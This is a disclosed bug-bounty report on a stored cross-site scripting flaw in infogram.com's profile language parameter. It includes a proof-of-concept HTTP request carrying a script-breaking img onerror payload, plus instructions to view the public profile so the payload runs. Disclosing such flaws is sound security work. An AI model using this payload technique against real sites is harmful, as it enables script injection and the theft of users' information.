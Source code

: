 # Stored XSS in infogram.com via language 

## Report Details
- **Report ID**: 430029
- **URL**: https://hackerone.com/reports/430029
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-10-28T21:18:50.797Z
- **Disclosed**: 2019-06-22T07:54:17.827Z

## Reporter
- **Username**: theappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
The stored XSS was found in the language profile parameter.

POC:
Change profile settings with following request:

```http
PUT /api/users/me HTTP/1.1
Host: infogram.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrf-token: **your token**
X-Requested-With: XMLHttpRequest
Content-Length: 135
DNT: 1
Connection: close
Cookie: **your cookies**

first_name=name&last_name=name&username=&confirm_password=password&language=></script><img src=x onerror=alert(document.domain)>;//
```
Go to your public profile link.

example: https://infogram.com/dd_ddt7

## Impact

This allows an attacker to inject custom Javascript codes that can be used to steal information from infogram's users.

## Attachments
- Selection_088.png
